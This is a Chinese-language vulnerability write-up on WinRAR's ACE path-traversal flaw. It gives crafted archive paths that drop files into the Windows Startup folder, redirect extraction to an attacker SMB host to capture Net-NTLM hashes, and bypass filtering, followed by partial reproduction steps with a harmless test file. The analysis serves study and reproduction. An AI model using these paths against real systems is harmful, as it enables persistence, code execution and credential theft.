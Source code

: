 ```
1.攻击方法：使用漏洞，将恶意文件静默释放至可能造成危害的路径中实现攻击。
恶意的相对路径：C:\C:\some_folder\some_file.ext
最终的解压路径：C:\some_folder\some_file.ext
构造 C:\C:\这种结构是在解析时，提取盘符头后，直接造成相对路径为释放路径
```

```
2.攻击方法：获取受害者的Net-NTLM hash，从而使用NTLM Relay的方式攻击受害者。
恶意的相对路径：C:\\10.10.10.10\smb_folder_name\some_folder\some_file.ext
最终的解压路径：\10.10.10.10\smb_folder_name\some_folder\some_file.ext
构造\\造成解析时 会多一个\ 从而造成相对共享的攻击效果
```

> 在普通用户权限下：
>
> 会将文件默认释放到 
>
> 用户启动目录（”C:\Users\<user name>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup”
>
> 而不是
>
> 系统启动目录（”C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”）
>
> 定向的账户攻击就可能需要对目标进行登录用户名信息搜集
>
> 而常规的直接下载到桌面或针对用户名下目录的则没有这个问题

fuzz作者构造的攻击payload

```
构造路径：C:\C:C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\some_file.exe
最终解释路径：C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\some_file.exe

采用的是绕过过滤的方法。
在解释道最终路径后
../会返回到 user folder 
并连接  AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\ 目录
直接拼接出自启动项的路径。
```

**[攻击复现：](https://fuping.site/2019/02/21/WinRAR-Extracting-Code-Execution-Validate/)**

1. **制作投递payload**

   这里用简单的TXT文件来当做投递pyload 

   ```cmd
   echo AAAAAAAAAA >> TESTPAYLOD.txt
   ```

2. **进行ACE压缩**，选用 [`WinACE`](https://web.archive.org/web/20170714193504/http:/winace.com:80/)工具压缩。选择 保存 压缩全路径 stroe full path

3. **进行数据格式对照**，提供了一个ACE格式解析脚本 [acefile.py](https://github.com/droe/acefile/blob/master/acefile.py)（py3版本），使用python acefile.py  --headers  xxx.ace 来获取文件头信息

   ```cmd
   C:\Users\c\Desktop>python acefile.py --headers TESTPAYLOD.
   volume
       filename    TESTPAYLOD.ace
       filesize    132
       headers     MAIN:1 FILE:1 others:0
   header
       hdr_crc     0x45b5
       hdr_size    49
       hdr_type    0x00        MAIN
       hdr_flags   0x9000      ADVERT|SOLID
       magic       b'**ACE**'
       eversion    20          2.0
   ```